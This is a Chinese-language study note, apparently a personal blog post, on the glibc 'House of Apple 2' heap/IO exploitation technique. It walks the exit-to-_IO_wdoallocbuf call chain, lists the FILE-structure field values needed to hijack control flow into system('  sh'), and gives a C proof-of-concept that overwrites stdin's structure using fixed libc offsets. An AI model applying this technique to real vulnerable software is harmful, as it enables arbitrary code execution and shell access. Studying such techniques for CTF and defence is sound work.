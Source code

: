 ```yaml
---
title: houseofapple2
date: 2024-8-19
categories: 日常研究
---
```

# 前言
houseofapple2应该是我的IO系列引路人了，一直被glibc里面的源码吓得头大，各种条件也是搞得不明不白的，一般只能照抄网上的条件去触发。

现在我的本地设置好了源码调试，又有各种符号表等等，总之我决定啃下houseofapple2，这篇文章暂时先总结houseofapple2的最低触发条件，下次试试把这些条件整合到一起，力求以最小内存大小实现houseofapple2触发
# 调试过程
我们知道houseofapple2的调用链是
```
exit
->__run_exit_handlers
->_IO_cleanup
->_IO_flush_all_lockp
->_IO_OVERFLOW(这个是个宏定义，实际函数名可以看等会的图片)
->_IO_wdoallocbuf
->任意你设定好的可执行地址
```
本文就以沿着这条链子的调试过程作为线索，找到houseofapple2的最低触发条件
### exit->__run_exit_handlers
![exit_call__run_exit_handlers](./apple2/exit_call__run_exit_handlers.png)
这里没有任何需要满足的条件，从图中右上源码上也可看出
### __run_exit_handlers->IO_cleanup
![exit_handlers_call_io_cleanup](./apple2/exit_handlers_call_io_cleanup.png)
这里依然没有任何需要满足的条件
### _IO_cleanup->_IO_flush_all_lockp
![io_cleanup_call_io_flush_all_lockp](./apple2/io_cleanup_call_io_flush_all_lockp.png)
这是不需要满足条件的最后一步，接下来几乎每一层都有特定条件需要满足
### _IO_flush_all_lockp->_IO_OVERFLOW
![io_flush_all_lockp_call_io_overflow](./apple2/io_flush_all_lockp_call_io_overflow.png)

```    
if  (
        (
            (fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
             || 
            (   _IO_vtable_offset (fp) == 0
             && fp->_mode > 0
             && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
            )
        )
        && _IO_OVERFLOW (fp, EOF) == EOF
    )
```
我们需要进入_IO_OVERFLOW，所以显然我们要满足在` && _IO_OVERFLOW(fp,EOF) == EOF`之前的条件
也就是在`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`与
```
(   _IO_vtable_offset (fp) == 0
    && fp->_mode > 0
    && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
)
```
中选择一个满足，这时候我们为了后面的条件同时满足，只能选择前者。
### _IO_OVERFLOW->_IO_wdoallocbuf
![io_overflow_call_io_wdoallocbuf](./apple2/io_overflow_call_io_wdoallocbuf.png)
在这张图中可以看到必须不满足`if (f->_flags & _IO_NO_WRITES)`以及满足
```
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```
才可以进入`_IO_wdoallocbuf(f)`

![flags_macro_define](./apple2/flags_macro_define.png)
根据查询glibc源码，我们发现`_IO_CURRENTLY_PUTTING`的值为0x800
[roderick](https://bbs.kanxue.com/thread-273832.htm#%E5%88%A9%E7%94%A8_io_wfile_overflow%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81)发现只要将`_flags`设置为0x68732020，就可以绕过关于flag的各种条件。在这里(0x68732020 & 0x800 = 0)


并且_flags会被当作我们最后执行函数的rdi。比如如果我们决定使用system函数，0x68732020还会被用作system函数的参数，也就是'  sh'。非常的巧妙
### _IO_doallocbuf->任意地址执行
这一步需要把fp->_vtable覆盖成_IO_wfile_jumps，否则会因为如下的检查而利用失败
![validate_vtable](./apple2/validate_vtable.png)
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址
# 利用条件
_IO_flush_all_lockp->_IO_OVERFLOW
需要满足`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`
_IO_OVERFLOW->_IO_wdoallocbuf
需要不满足`if (f->_flags & _IO_NO_WRITES)`
以及满足
```
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```

以及还需要把fp->_vtable覆盖成_IO_wfile_jumps
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址

总结一下，如果是利用system函数获取shell，需满足如下条件
```
_flags == 0x68732020
fp->_mode == 0
fp->_IO_write_ptr > fp->_IO_write_base
fp->_vtable == _IO_wfile_jumps
fp->_wide_data->_IO_write_base == 0
fp->_wide_data->_wide_vtable+0x68 == &system
```

总结到这一步，发现其实也没想象中那么复杂，很多条件都是0，在内存中有时候本来就是0，根本不需要特别设置。
然后是我写的demo
```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
int main()
{
    long libc_base = &printf - 0x60770;
    long _IO_2_1_stdin_ptr = libc_base + 0x219aa0;

    *(int*)(_IO_2_1_stdin_ptr + 0xc0) = 0;
     // fp->_mode = 0
    *(long*)(_IO_2_1_stdin_ptr + 0x28) = 1;
     // fp->_IO_write_ptr = 1
    *(long*)(_IO_2_1_stdin_ptr + 0x20) = 0;
     // fp->_IO_write_base = 0

    *(int*)(_IO_2_1_stdin_ptr + 0) =0x68732020;
    // fp->_flags = '  sh'

    *(long*)(_IO_2_1_stdin_ptr + 0xd8) = libc_base + 0x2160c0;
    // fp->_vtable = _IO_wfile_jumps
    
    long wide_data = *(long*)(_IO_2_1_stdin_ptr + 0xa0);
    *(long*)(wide_data + 0x18) = 0;
    // fp->_wide_data->_IO_write_base = 0

    long fake_wide_data_vtable = malloc(0x300);
    *(long*)(wide_data + 0xe0) = fake_wide_data_vtable;
    *(long*)(fake_wide_data_vtable + 0x68) = &system;
    // fp->_wide_data->_wide_vtable + 0x68 = &system

    exit(0);
}
```
# 小表格
有时候在查找_IO_FILE_plus以及_wide_data对应的值的时候比较麻烦，就搞了一个小表格
![io_file](./apple2/io_file.png)
